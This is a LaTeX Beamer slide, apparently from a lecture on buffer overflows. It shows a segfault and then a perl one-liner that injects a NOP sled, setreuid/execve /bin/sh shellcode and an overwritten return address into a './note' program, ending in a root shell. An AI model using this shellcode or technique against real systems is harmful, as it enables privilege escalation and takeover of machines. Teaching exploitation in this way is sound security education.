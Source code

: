 \begin{frame}{What is BOF?}
\begin{figure}
		\caption{BOF segmentation fault}
		\label{fig:segfault}
	\end{figure}
\framebreak
	\begin{block}{Also known as}
		\begin{verbatim}
			user$ ./note AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
			Segmentation fault
		\end{verbatim}
	\end{block}
\framebreak
	\begin{figure}
		\centering
		\includegraphics[width=0.4\textwidth]{imgs/whoami.png}
		\caption{BOF whoami: root}
		\label{fig:whoami}
	\end{figure}
\framebreak
	\begin{block}{Also known as}
		\begin{lstlisting}
			user$ ./note `perl -e 'printf("\x90" x 153 . "\x31\xdb\x31\xc9\x31\xc0\xb0\xcb\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80\x31\xdb\xb0\x01\xcd\x80" . "\x90" x 22 . "\xef\xbe\xad\xde")'`
			sh-3.1# whoami
			root
		\end{lstlisting}
	\end{block}
\end{frame}

